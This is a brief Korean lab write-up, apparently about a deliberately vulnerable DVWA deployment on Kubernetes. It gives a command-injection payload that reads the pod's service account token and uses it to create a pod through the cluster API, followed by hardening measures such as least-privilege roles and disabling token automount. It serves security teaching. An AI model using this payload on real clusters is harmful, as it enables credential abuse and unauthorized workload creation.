 # 공격 시나리오
* serviceAccount 토큰을 사용하여 쿠버네티스 pod 생성


# 공격 방법

* default namespace에 nginx pod를 생성

```sh
127.0.0.1 -c 1 && cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" -d '{"apiVersion":"v1","kind":"Pod","metadata":{"name":"nginx","namespace":"default"},"spec":{"containers":[{"name":"nginx","image":"nginx:latest","ports":[{"containerPort":80}]}]}}' https://kubernetes.default.svc.cluster.local/api/v1/namespaces/default/pods; }
```

# 보안조치
* [role](./manifests/dvwa_webapp/clusterrole.yaml)에서 필요한 권한(최소권한)만 설정
* [clusterrole binding](./manifests/dvwa_webapp/clusterrolebinding.yaml)를 rolebinding으로 변경 -> 다른 namespace 접근 불가
* token이 불필요하면 automountServiceAccountToken을 false로 설정
* secret 데이터는 암호화해서 저장(써드파티 사용, 예: vault)
